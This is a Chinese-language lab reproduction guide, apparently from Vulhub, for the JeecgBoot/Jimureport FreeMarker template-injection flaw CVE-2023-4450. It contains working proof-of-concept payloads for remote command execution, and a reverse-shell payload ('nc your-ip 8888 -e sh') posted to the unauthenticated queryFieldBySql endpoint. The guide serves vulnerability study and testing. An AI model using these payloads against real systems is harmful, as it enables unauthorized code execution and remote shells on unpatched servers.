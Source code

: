 # JeecgBoot SSTI CVE-2023-4450

## 漏洞描述

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在. 由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生.

参考链接：

- https://www.oscs1024.com/hd/MPS-4hzd-mb73
- https://www.reajason.eu.org/writing/freemarkersstimemshell
- https://github.com/jeecgboot/JimuReport

## 环境搭建

Vulhub 执行如下命令启动 3.5.3 版本的 JeecgBoot 后端:

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 积木工作台页。

![image-20231021151233971](images/image-20231021151233971.png)

## 漏洞复现

点击新建图表 → 选择 SQL 数据集 → 报表 SQL 中填写 Payload → 点击 SQL 解析。

poc：

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("nc your-ip 8888 -e sh")}
```

```
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc").start ()}
```

others（https://mp.weixin.qq.com/s/eT32vnk_8anS3e-2B287cA）：

```
{"sql":"<#assign value=\"freemarker.template.utility.Execute\"?new()>${value(\"calc.exe\")}","dbSource":"","paramArray":"","type":""}

#sql的其它可用poc：
<#assign 
value=\"freemarker.template.utility.ObjectConstructor\"?new()>${value(\"java.lang.ProcessBuilder\",\"calc.exe\").start()}

#jython的调用需要满足目标类路径中包含org.python的包，本地复现时引入jython-standalone可正常执行命令
<#assign 
value=\"freemarker.template.utility.JythonRuntime\"?new()><@value>import os;os.system(\"calc.exe\")</@value>
```

反弹 shell，使用 nc 开启监听端口 8888：

```
 nc -vvl 8888
```

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload。

```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc your-ip 8888 -e sh\")}",
    "type": "0"
}
```
